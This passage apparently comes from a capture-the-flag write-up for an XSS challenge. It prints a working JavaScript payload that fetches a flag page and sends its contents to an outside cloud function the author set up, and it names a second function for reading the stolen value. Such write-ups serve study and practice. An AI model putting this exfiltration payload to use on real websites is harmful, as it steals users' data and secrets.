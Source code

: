 If you run ``solution.py``, it will create a payload, send it to the challenge and display the flag it exfiled. 

The payload created is, 
```
var xhr = new XMLHttpRequest()
xhr.open('GET','/xss-one-flag',true)
xhr.onload = function () {
	var request = new XMLHttpRequest()
	request.open('GET','https://us-central1-arboretum-backend.cloudfunctions.net/store-flag?flag=' + xhr.responseText,true)
	request.send()
}
xhr.send(null)
```

This will create an XHR request to fetch the flag and will send it to a cloud function I've set-up at ``https://us-central1-arboretum-backend.cloudfunctions.net/store-flag``. 

This cloud function will push the flag into a pubsub topic that you can read using another cloud function, ``https://us-west1-arboretum-backend.cloudfunctions.net/print-flag``.